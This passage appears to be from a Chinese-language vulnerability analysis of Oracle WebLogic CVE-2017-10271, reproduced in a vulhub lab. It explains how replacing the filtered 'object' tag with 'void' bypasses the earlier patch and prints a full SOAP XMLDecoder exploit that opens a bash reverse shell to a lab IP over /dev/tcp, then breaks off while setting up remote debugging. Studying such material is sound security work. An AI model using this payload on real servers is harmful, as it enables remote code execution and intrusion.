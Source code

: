 这里就是将 object 标签进行过滤，绕过方式就是将 object 修改成 void，也就是 CVE-2017-10271

### 2.4 CVE-2017-10271 分析

**环境搭建**：  
使用 vulhub 中的环境，修改 docekr-compose.yml 文件，加上 8453 端口的映射，使其能够调试  
**复现**：  
exp:

```bash
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java version="1.4.0" class="java.beans.XMLDecoder">
                <void class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>bash -i &gt;&amp; /dev/tcp/172.22.0.1/7777 0&gt;&amp;1</string>
                        </void> 
                    </array>
                    <void method="start"/>
                </void>
            </java>
        </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

bp 抓包  
[![](assets/1699005728-a2a1a17ef555436d00eff7d96b1c2217.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101201316-0987ec50-78b0-1.png)  
反弹 shell 成功  
**远程调试**：  
进入容器，配置 weblogic 开启远程调试  
改`/root/Oracle/Middleware/user_projects/domains/base_domain/bin/setDomainEnv.sh`文件，加入以下内容
